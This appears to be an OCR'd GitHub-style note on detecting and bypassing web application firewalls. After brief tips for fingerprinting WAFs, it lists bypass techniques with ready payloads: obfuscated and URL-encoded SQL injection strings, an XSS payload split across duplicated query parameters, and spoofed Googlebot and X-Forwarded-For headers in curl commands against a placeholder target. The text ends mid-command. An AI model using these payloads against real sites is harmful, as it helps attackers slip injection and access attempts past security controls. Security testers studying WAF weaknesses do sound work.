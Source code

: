 ```bash
#Real-time learning models
#Bot detection engines
```

```bash
🧪 WAF Detection Tips (as an attacker or tester):
     Do curl or ffuf requests fail but browsers work? → Header/JS check
     Do aggressive scans get blocked after N requests? → Rate limiting
     Are cloud IPs blocked but home IP works? → Geo/ASN filter
     Does the site issue JS-based redirects? → Challenge verification
     Is 403 returned on POST to /login with missing CSRF? → Token enforcement
```


##### WAF Bypass Techniques :

Technique #1: Payload Obfuscation
- Used encoding and double encoding
- Used various type of encoding like base64 , url encoding , or more
- String Splitting ,String Concatenation:
```bash
#example payload
SEL/**/ECT * FROM users --
UNION → 'UNI'+'ON'

SELECT%u0020*%u0020FROM%u0020users%u0020WHERE%u0020id=1
 ' OR 1=1 --'
 %27%20OR%201%3D1%20--

curl -X GET "https://target.com/%75%73%65%72" \  
-H "Accept: */*"  # /user endpoint obfuscated

#Base64 encode payloads
#Use JSON or XML-based requests instead of URL parameters
#Use multipart/form-data to deliver payloads hidden in file uploads or fields
```


Technique #2: HTTP Parameter Pollution (HPP)
-  Duplicating parameters in the request to confuse the WAF.
```bash
GET /search?query=<script>alert(1)</script>             #blocked 
GET /search?query=<script>&query=alert(1)</script>#bypassed 
?id=1&id=2
```


Technique #3: Header Manipulation
- Most WAFs block attacks based on request headers, but some rely only on specific headers like User-Agent and Referrer.
```bash
#blocked
GET /admin-panel HTTP/1.1
User-Agent: Mozilla/5.0 (hacker-tool)

#allowed
GET /admin-panel HTTP/1.1
User-Agent: Googlebot/2.1 (+http://www.google.com/bot.html)

#example of headers.
X-Forwarded-For, X-Originating-IP, or User-Agent

curl --header "Host: target.com" http://IP-ADDRESS

curl -X POST "https://target.com/login" \  
-H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" \  
-H "X-Forwarded-For: 127.0.0.1" \  
-H "Accept-Language: en-US,en;q=0.9" \  
```